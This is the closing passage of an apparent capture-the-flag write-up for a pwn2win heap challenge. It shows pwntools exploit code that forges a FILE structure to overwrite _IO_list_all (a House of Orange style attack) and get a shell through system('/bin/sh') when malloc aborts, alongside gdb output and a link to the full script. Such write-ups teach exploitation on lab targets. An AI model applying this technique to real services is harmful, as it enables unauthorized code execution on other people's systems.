 But how come we can access our fake chunk from 11th offset , there are only 10 testimonials per user right?

The answer is that fishy for loop range we saw previously is helping us achieve this.

```c

for ( i = v8; i <= dword_555555757080[50 * a1]; ++i )

```

Finally we edit our fake chunk with the file structure that satisfies the constraints of calling **system("/bin/sh")** from malloc abort.

```py

    addr = heap_base + 0x1f30
    vtable = heap_base + 0x1f58
    system = libc_base + libc.symbols['system']
    payload = p64(0xdeadbeef) + p64(IO_list- 0x10)
    payload += p64(0)*16 + p64(addr)
    payload += p64(0)*3 +p64(1) +p64(0)*2
    payload += p64(vtable) + p64(1)+p64(2)+p64(3)+ p64(0)*3 + p64(system)
    gdb.attach(io)
    edit('y',5,payload)

```

Next malloc call should definitely overwrite **\_IO\_list\_all** and subsequently abort also , thus giving us shell.

```sh
   0x7ffff7a8ee0c <_int_malloc+652>:	mov    QWORD PTR [rbx+0x70],r15
   0x7ffff7a8ee10 <_int_malloc+656>:	mov    QWORD PTR [r15+0x10],r12

```
r15 was the fd which was IO_list-0x10 , and that is overwritten with r12 which is the pointer to top chunk in main_arena.

Now while closing the file structures , in the linked list , **IO\_flushall\_lockp** will be fooled to see our fake file structure and thus give us shell.

On the very next malloc , we get our sweet shell.

```py

add("third","shell")

```

## CONCLUSION

Awesome challenge , Awesome Idea , kudos to team pwn2win for such a beautiful challenge.

Here's the complete [Script](https://gist.github.com/PwnVerse/96c30d61ac33d692c04074157d033c31)

### References

* [JayKrishna Menon's Blog](https://jkrshnmenon.wordpress.com/2017/08/30/hitcon-2016-house-of-orange-writeup/)
